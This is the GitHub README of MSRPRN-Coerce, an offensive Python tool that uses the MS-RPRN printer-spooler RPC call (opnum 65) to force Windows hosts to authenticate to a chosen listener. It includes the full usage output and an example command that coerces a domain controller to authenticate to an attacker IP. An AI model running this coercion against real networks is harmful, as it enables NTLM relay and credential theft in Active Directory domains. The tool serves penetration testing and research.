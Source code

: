 # MSRPRN-Coerce

<p align="center">
    A python script to force authentification using MS-RPRN RemoteFindFirstPrinterChangeNotificationEx function (opnum 65).
    <br>
    <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/MSRPRN-Coerce">
    <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
    <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
    <br>
</p>

![](./.github/banner.png)

## Features

**Requires**: A valid username and password on the domain.

 - [x] Force authentification using MS-RPRN `RemoteFindFirstPrinterChangeNotificationEx` function (opnum 65).
 - [x] 🐍 Python 3 and Python 2 compatibility.
 - [x] Targets either a single IP or a range of IPs.

## Usage

```
$ ./MS-RPRN-Coerce.py -h
MS-RPRN-Coerce v1.1 - by @podalirius_

usage: e.py [-h] [-v] [--dc-ip ip address] [-d DOMAIN] [-u USER] [--target-ip ip address] [--no-pass | -p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key] [-k]
            listener target

Force authentification using MS-RPRN RemoteFindFirstPrinterChangeNotificationEx function (opnum 65).

positional arguments:
  listener              IP address or hostname of listener.
  target                IP address or hostname of target.

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Verbose mode. (default: False)

authentication & connection:
  --dc-ip ip address    IP Address of the domain controller or KDC (Key Distribution Center) for Kerberos. If omitted it will use the domain part (FQDN) specified in the
                        identity parameter
  -d DOMAIN, --domain DOMAIN
                        (FQDN) domain to authenticate to
  -u USER, --user USER  user to authenticate with
  --target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name or
                        Kerberos name and you cannot resolve it

  --no-pass             Don't ask for password (useful for -k)
  -p PASSWORD, --password PASSWORD
                        Password to authenticate with
  -H [LMHASH:]NTHASH, --hashes [LMHASH:]NTHASH
                        NT/LM hashes, format is LMhash:NThash
  --aes-key hex key     AES key to use for Kerberos Authentication (128 or 256 bits)
  -k, --kerberos        Use Kerberos authentication. Grabs credentials from .ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it
                        will use the ones specified in the command line
```

## Example

To force `DC01.LAB.local` to authenticate over SMB to your attacker IP `192.168.2.51`:

```
./MS-RPRN-Coerce.py 192.168.2.51 DC01.LAB.local -u user1 -p 'Lab123!'
```

## Technical detail

This attack performs an RPC call of the `RpcRemoteFindFirstPrinterChangeNotificationEx` function (opnum 65) in the SMB named pipe `\pipe\spoolss` through the `IPC$` share to force authentication from a target machine to another.

## Demo

https://user-images.githubusercontent.com/79218792/155523928-6614ba1f-13c0-4bfc-8f42-05ef78c1e905.mp4

## Contributing

Pull requests are welcome. Feel free to open an issue if you want to add other features.
